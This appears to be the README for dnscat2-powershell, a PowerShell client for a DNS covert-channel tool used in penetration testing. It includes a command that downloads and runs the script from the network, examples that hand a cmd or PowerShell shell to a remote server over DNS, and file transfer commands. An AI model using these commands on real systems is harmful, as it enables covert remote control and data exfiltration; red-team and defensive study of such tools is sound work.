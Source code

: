 [dnscat2](https://github.com/iagox86/dnscat2) is a DNS covert channel tool by [@iagox86 (Ron Bowes)](https://blog.skullsecurity.org/) which is used to transfer data over DNS requests.

This is a powershell version of the dnscat2 C client.

To use this script, you'll need the ruby [dnscat2 server](https://github.com/iagox86/dnscat2). **Make sure to add the `--no-cache` option when running the server. This client is incompatible with the server's caching.**

### Setup

[First, install the dnscat2 server.](https://github.com/iagox86/dnscat2/blob/master/README.md) Start the server with caching disabled using `--no-cache`. The command to start your server should look something like this: `ruby dnscat2.rb --dns="domain=example.com" --no-cache`

Next, launch Windows Powershell (version 2.0 or later). You can use this command to load the dnscat2 powershell functions:

    IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1')

### Examples

Start-Dnscat2 is the actual function used as the client. Specifiy the dnscat2 server using `-Domain`.

    Start a command session, and send DNS requests to 8.8.8.8 on port 53:
        Start-Dnscat2 -Domain <dnscat2 server> -DNSServer 8.8.8.8

    Send a cmd shell, and send DNS requests to the default DNS Server set in Windows:
        Start-Dnscat2 -Domain <dnscat2 server> -Exec cmd

    Start a console session. Only use CNAME and MX requests:
        Start-Dnscat2 -Domain <dnscat2 server> -LookupTypes @("CNAME","MX") -Console

    Do not encrypt the session. Encryption is enabled by default.
        Start-Dnscat2 -Domain <dnscat2 server> -NoEncryption

### Powershell Command Session Commands

The client can handle normal dnscat2 commands, or the *powershell version* of that command. To use the powershell version of a command, set specific parameters the client will detect (These are commands run from a command session on the server):

    Start a new session which simulates a Powershell shell, like ExecPS:
        exec psh

    Upload app.exe on the server into a byte array stored in the $app powershell variable:
        upload app.exe bytes:$app
    
    Download the byte array stored in the $app powershell variable to app.exe on the server:
        download bytes:$app app.exe

### Start-Dnscat2

    -Domain <String>          The Domain being used by the dnscat2 server.
    -DNSServer <String>       The hostname or IP Address to send DNS queries to. (Default: Set by Windows)
    -DNSPort <Int32>          The port to send DNS queries to. (Default: 53)
    
    -Command                  Start a command session. (Default)
    -Exec <String>            Link the I/O of a process with the Dnscat2 session.
    -Console                  Link the I/O of the console with the Dnscat2 session.
    -ExecPS                   Simulate a Powershell session and link the IO with the Dnscat2 session.
                              WARNING: Exiting will kill the entire dnscat2 client, not just the session.
    
    -PreSharedSecret          Set the same secret on the server to authenticate and prevent MITM.
    -NoEncryption             Do not use encryption.
    
    -LookupTypes <String[]>   Set an array of lookup types to randomly switch between. Default: @(TXT, MX, CNAME)
    -Delay <Int32>            Set a delay between each request, in milliseconds. (Default: 0)
    -MaxPacketSize <Int32>    Maximum length of a dnscat2 packet. (Default: 240)
    -Name <String>            The name of your dnscat2 session. (Default: hostname)

### ExecPS and 'exec psh'

dnscat2-powershell simulates a powershell session by passing data from the server to Invoke-Expression. Only stdout is returned, and variables are preserved as long as the client is running. **Watch out** for things that exit powershell like "exit" and "break", because the entire dnscat2-powershell client will exit, not just the ExecPS session.

### Currently Unsupported Features
    A and AAAA requests are not supported
